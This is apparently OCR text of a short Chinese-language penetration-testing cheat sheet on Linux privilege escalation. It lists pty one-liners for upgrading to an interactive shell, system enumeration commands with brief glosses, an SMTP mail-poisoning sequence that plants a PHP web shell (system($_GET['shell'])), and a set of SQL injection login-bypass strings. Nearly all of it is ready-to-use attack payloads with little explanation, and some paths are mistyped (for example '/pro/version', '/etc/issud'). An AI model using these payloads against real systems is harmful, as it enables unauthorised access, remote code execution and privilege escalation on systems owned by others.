 # linux提权

# 用过的交互式

交互式shell 
python3 -c 'import pty; pty.spawn("/bin/bash")' 

python -c 'import pty; pty.spawn("/bin/bash")'

os.execute("/bin/sh") ^abc63a

# 一些枚举
hostname  
主机名

uname -a
印系统信息，提供有关系统使用的内核的更多详细信息

/pro/version
查看 /proc/version 提供有关内核版本和其他数据的信

/etc/issud
/etc/issue 文件来识别系统 

ps -aux
选项将显示所有用户的进程 （a），显示启动进程的用户 （u），并显示未连接到终端的进程 （x）。查看 ps aux 命令输出，我们可以更好地了解系统和潜在漏洞。

ps -axjf
查看进程树

env
环境变量

sudo -l
可用于列出可以使用 sudo 运行的所有命令

crontab -l
检查定时计划

# smtp 邮件木马
登录 smtp 服务发送邮件

```
MAIL FROM: test
RCPT TO: 用户
data
<?php system($_GET['shell']); ?>
.
QUIT
```
# sql万能密码
```
 1=1 -- - 

' or '' = '  

' or 1=1;--  

1 or 1=1  

" or ""="

'or 1='1
```